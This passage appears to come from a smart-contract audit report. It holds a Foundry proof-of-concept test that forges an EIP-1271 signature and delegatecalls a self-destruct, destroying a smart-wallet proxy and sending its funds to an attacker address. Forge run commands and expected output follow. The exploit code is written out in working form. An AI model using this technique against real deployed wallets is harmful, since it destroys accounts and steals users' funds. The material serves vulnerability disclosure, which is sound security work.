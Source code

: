             // Impersonate hacker
            vm.startPrank(hacker);
            // Create the calldata to call the selfDestruct function of SelfDestructingContract and send funds to hacker 
            bytes memory data = abi.encodeWithSelector(sdc.selfDestruct.selector, hacker);
            // Create transaction specifing SelfDestructingContract as target and as a delegate call
            Transaction memory transaction = Transaction(address(sdc), 0, data, Enum.Operation.DelegateCall, 1000000);
            // Create FeeRefund
            FeeRefund memory fr = FeeRefund(100, 100, 100, hacker, payable(hacker));
    
            bytes32 fakeSignerPadded = bytes32(uint256(uint160(address(fs))));
            // Add fake signature (r,s,v) to pass all requirments.
            // v=0 to indicate eip-1271 signer "fakeSignerPadded" which will always return true
            bytes memory signatures = abi.encodePacked(fakeSignerPadded, bytes32(uint256(65)),uint8(0), bytes32(0x0));
            // Call execTransaction with eip-1271 signer to delegatecall to selfdestruct of the proxy contract.
            proxySmartAccount.execTransaction(transaction, 0, fr, signatures);
            vm.stopPrank();
        }
    
        function testProxyDoesNotExist() public {
            uint size;
            // Validate that bytecode size of the proxy contract is 0 becuase of self destruct 
            address proxy = address(proxySmartAccount);
            assembly {
              size := extcodesize(proxy)
            }
            assertEq(size,0);
        }
    
        function testRevertWhenCallingWalletThroughProxy() public {
            // Revert when trying to call a function in the proxy 
            proxySmartAccount.getNonce(0);
        }
    }

To run the POC and validate that the proxy does not exist after destruction:

    forge test -m testProxyDoesNotExist -v --fork-url="<GOERLI FORK RPC>"

Expected output:

    Running 1 test for test/DestroyWalletAndStealFunds.t.sol:DestroyWalletAndStealFunds
    [PASS] testProxyDoesNotExist() (gas: 4976)
    Test result: ok. 1 passed; 0 failed; finished in 4.51s

To run the POC and validate that the EOA cannot interact with the wallet after destruction:

    forge test -m testRevertWhenCallingWalletThroughProxy -v --fork-url="<GOERLI FORK RPC>"

Expected output:

    Failing tests:
    Encountered 1 failing test in test/DestroyWalletAndStealFunds.t.sol:DestroyWalletAndStealFunds
    [FAIL. Reason: EvmError: Revert] testRevertWhenCallingWalletThroughProxy() (gas: 5092)
